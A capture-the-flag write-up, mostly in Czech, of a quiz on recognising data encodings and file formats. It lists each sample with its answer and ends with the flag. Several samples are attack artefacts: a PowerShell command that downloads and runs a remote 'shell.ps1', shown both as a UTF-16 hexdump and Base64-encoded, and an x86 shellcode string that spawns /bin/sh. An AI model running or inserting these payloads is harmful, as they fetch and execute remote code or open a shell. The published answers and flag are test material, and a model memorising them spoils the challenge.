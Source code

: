 # Apha-Zulu quiz (3)

## Zadání

Ahoy, officer

your task is to pass a test that is part of the crew drill. Because of your rank of third officer, you must lead the crew by example and pass the test without a single mistake.

May you have fair winds and following seas!

The quiz webpage is available at <http://quiz.cns-jv.tcc>.

## Nápovědy (Hints)

1. Use VPN to get access to the quiz web.

## Řešení

Adresa ze zadání zobrazí postupně 20 náhodně seřazených otázek z oblasti kódování typu dat, na které je potřeba správně odpovědět. Odpovědi se vyhodnotí po skončení testu.

Správné odpovědi jsou

```text
00000000  49 00 45 00 58 00 28 00 4e 00 65 00 77 00 2d 00  |I.E.X.(.N.e.w.-.|
00000010  4f 00 62 00 6a 00 65 00 63 00 74 00 20 00 4e 00  |O.b.j.e.c.t. .N.|
00000020  65 00 74 00 2e 00 57 00 65 00 62 00 43 00 6c 00  |e.t...W.e.b.C.l.|
00000030  69 00 65 00 6e 00 74 00 29 00 2e 00 64 00 6f 00  |i.e.n.t.)...d.o.|
00000040  77 00 6e 00 6c 00 6f 00 61 00 64 00 53 00 74 00  |w.n.l.o.a.d.S.t.|
00000050  72 00 69 00 6e 00 67 00 28 00 27 00 68 00 74 00  |r.i.n.g.(.'.h.t.|
00000060  74 00 70 00 3a 00 2f 00 2f 00 31 00 30 00 2e 00  |t.p.:././.1.0...|
00000070  31 00 30 00 2e 00 31 00 34 00 2e 00 33 00 31 00  |1.0...1.4...3.1.|
00000080  2f 00 73 00 68 00 65 00 6c 00 6c 00 2e 00 70 00  |/.s.h.e.l.l...p.|
00000090  73 00 31 00 27 00 29 00                          |s.1.'.).|
```

* UTF-16 Little Endian encoded data

---
`1609549323`

* UNIX timestamp

---
`ORUGS43JONQXIZLTORZXI4TJNZTTC===`

* Base32 encoded data

---

```text
00000000: 4d5a 9000 0300 0000 0400 0000 ffff 0000  MZ..............
00000010: b800 0000 0000 0000 4000 0000 0000 0000  ........@.......
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 0000 0000 0000 0000 8000 0000  ................
00000040: 0e1f ba0e 00b4 09cd 21b8 014c cd21 5468  ........!..L.!Th
```

* Microsoft Windows executable binary

---
`$P$BlW9FsUwJM0142LDsjtDsPUBHPVPIf/`

* Wordpress hash

---
`rO0ABXVyABNbTGphdmEubGFuZy5TdHJpbmc7rdJW5+kde0cCAAB4cAAAAAJ0ACFEOi93aW4zMmFwcC9hcGxpY2F0aW9uL2JpbmFyeS5leGV0AAktLXZlcnNpb24=`

* Java Serialized data

---
`dGhpc2lzYXRlc3RzdHJpbmcx`

* Base64 encoded data

---

```text
00000000  41 4c 41 0c 51 47 50 54 47 50 0c 46 4d 4f 43 4b  |ALA.QGPTGP.FMOCK|
00000010  4c 0c 58 4b 52 18 16 16 11                       |L.XKR....|
```

* XOR obfuscated string

---

`/wEPDwULLTE2MTY2ODcyMjkPFgQeCFVzZXJOYW1lBQ5EYXNndXB0YSBTaHViaB4IUGFzc3dvcmQFDElBbUFQYXNzd29yZGRk2/xP37hKKE9jfGYYzFjLuwpi6rHlPdXhfSspF6YRZiI=`

* .NET ViewState value

---

```text
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4
AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuAD
EANAAuADMAMQAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=
```

* Encoded PowerShell command

---

```text
00000000  50 4b 03 04 14 00 00 00 08 00 39 9b c7 56 db 90  |PK........9.ÇVÛ.|
00000010  a9 3d 19 00 00 00 10 00 00 00 08 00 00 00 66 69  |©=............fi|
00000020  6c 65 2e 74 78 74 05 40 b1 09 00 30 0c 7a c5 d7  |le.txt.@±..0.zÅ×|
00000030  84 b8 45 5a 30 ef 0f 92 67 21 f4 5f 61 78 2c 50  |.¸EZ0ï..g!ô_ax,P|
00000040  4b 01 02 14 00 14 00 00 00 08 00 39 9b c7 56 db  |K..........9.ÇVÛ|
00000050  90 a9 3d 19 00 00 00 10 00 00 00 08 00 00 00 00  |.©=.............|
00000060  00 00 00 00 00 00 00 00 00 00 00 00 00 66 69 6c  |.............fil|
00000070  65 2e 74 78 74 50 4b 05 06 00 00 00 00 01 00 01  |e.txtPK.........|
00000080  00 36 00 00 00 3f 00 00 00 00 00                 |.6...?.....|
```

* ZIP archive

---

```text
00000000: 7f45 4c46 0201 0100 0000 0000 0000 0000  .ELF............
00000010: 0300 3e00 0100 0000 7033 0000 0000 0000  ..>.....p3......
00000020: 4000 0000 0000 0000 f8b1 0000 0000 0000  @...............
00000030: 0000 0000 4000 3800 0d00 4000 1e00 1d00  ....@.8...@.....
00000040: 0600 0000 0400 0000 4000 0000 0000 0000  ........@.......
00000050: 4000 0000 0000 0000 4000 0000 0000 0000  @.......@.......
00000060: d802 0000 0000 0000 d802 0000 0000 0000  ................
```

* ELF binary

---

```text
0000000: 456c 6646 696c 6500 0000 0000 0000 0000  ElfFile.........
0000010: d300 0000 0000 0000 375e 0000 0000 0000  ........7^......
```

* Microsoft EVTX file signature

---
`\x31\xc0\x50\x68\x2f\x2f\x53\x48\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

* Linux x86 Shellcode

---
`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkRvZSBKb2huIiwiaWF0IjoxNTE2MjM5MDIyfQ.Aqma4g_FzStCaLSyvpRgKLNIgM4now17FXwSHsBlwag`

* JSON Web Token

---
`40bd001563085fc35165329ea1ff5c5ecbdbbeef`

* SHA1 sum

---

```text
ac ed 00 05 75 72 00 13 5b 4c 6a 61 76 61 2e 6c
61 6e 67 2e 53 74 72 69 6e 67 3b ad d2 56 e7 e9
1d 7b 47 02 00 00 78 70 00 00 00 02 74 00 21 44
3a 2f 77 69 6e 33 32 61 70 70 2f 61 70 6c 69 63
61 74 69 6f 6e 2f 62 69 6e 61 72 79 2e 65 78 65
74 00 09 2d 2d 76 65 72 73 69 6f 6e
```

* Java Serialized hex stream

---
`202cb962ac59075b964b07152d234b70`

* MD5 sum

---
`1f 8b 08 00 4f bd 80 64 00 ff 05 40 b1 09 00 30 0c 7a c5 d7 84 b8 45 5a 30 ef 0f 92 67 21 f4 5f 61 78 2c db 90 a9 3d 10 00 00 00`

* GZip hex stream

---
`O:8:"MyClass":2:{s:4:"name";s:9:"John Doe";s:3:"age";i:25;}`

* PHP serialized object

---

Pokud jsme na všechny otázky odpověděli dobře, zobrazí se hledaný FLAG.

## Flag

`FLAG{QOn7-MdEo-9cuH-aP6X}`
